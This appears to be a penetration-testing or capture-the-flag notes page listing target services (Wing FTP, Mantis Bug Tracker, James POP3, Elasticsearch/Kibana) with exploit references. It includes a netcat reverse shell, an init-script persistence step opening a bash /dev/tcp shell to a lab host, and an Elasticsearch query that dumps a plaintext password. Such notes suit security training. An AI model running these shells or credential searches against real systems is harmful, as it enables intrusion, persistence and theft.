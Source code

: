 ```
search lua
exploit(windows/ftp/wing_ftp_admin_exec)
```

### Mantis Bug Tracker

* `80/tcp open http mantisbt-2.3.0`
* CVE:2019-15715 2017-7615
* Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)

### James POP3

`110/tcp open POP3`

* James POP3 Server 2.3.2
* https://www.exploit-db.com/exploits/35513

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.2 3333 >/tmp/f
echo "#!/bin/bash" > /etc/init.d/james
echo "bash -i >& /dev/tcp/172.16.6.2/5555 0>&1" >> /etc/init.d/james
cat /etc/init.d/james
sudo /sbin/reboot
```

### Kibana

* 5601 is the elastic search port, 9200 is the api

```
curl -X GET "10.10.15.175:9200/_search?q=password&pretty"                                                                                                                                                                  130 ⨯
{
  "took" : 11,
  "timed_out" : false,
  "_shards" : {
    "total" : 6,
    "successful" : 6,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : 1,
    "max_score" : 2.0136302,
    "hits" : [
      {
        "_index" : "messages",
        "_type" : "_doc",
        "_id" : "73",
        "_score" : 2.0136302,
        "_source" : {
          "sender" : "mary",
          "receiver" : "wendy",
          "message" : "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
```
